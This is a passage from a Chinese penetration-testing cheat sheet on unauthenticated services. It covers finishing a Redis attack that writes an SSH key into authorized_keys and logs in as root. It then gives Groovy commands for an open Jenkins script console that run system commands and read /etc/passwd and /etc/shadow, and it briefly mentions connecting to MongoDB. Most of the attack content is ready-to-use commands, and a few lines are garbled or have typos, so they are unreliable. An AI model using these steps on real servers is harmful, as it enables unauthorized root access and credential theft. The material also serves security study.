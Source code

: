 
此时公钥成功写入目标机子，文件名为authorized\_keys

    192.168.x.x:6379 > save 
    
        

利用私钥链接目标

    ssh -i /root/.ssh/id_rsa root@192.168.x.x 
    set x "\n\n\n
    
        

参考资料：

    https://segmentfault.com/a/1190000009811404
    https://github.com/andymccurdy/redis-py
    
        

* * *

###### Jenkins

默认是8080端口未授权访问就是任意用户都能访问都能执行命令

    127.0.0.1:8080/jenkins/manage
    127.0.0.1:8080/jenkins/script
    
        

**常用命令集合：**

    println "whoami".execute().text
    
        

**Linux：**

    println ifconifg -a".execute().text
    println "cat /etc/passwd".execute().text
    printin"cat /etc/shadow".execute().text 
    
        

**Windows：**

    println "ipconfig /all".execute().text
    def sout = new StringBuffer(), serr = new StringBuffer()
    def proc = 'ipconfig'.execute()
    proc.consumeProcessOutput(sout, serr)
    proc.waitForOrKill(1000)
    println "out> $sout err> $serr"
    
        

靶机有漏洞复现，遇到了执行命令即可…

* * *

###### Mongodb

利用可视化工具连接默认端口：28017-
推荐Robo3t 1.1 即可

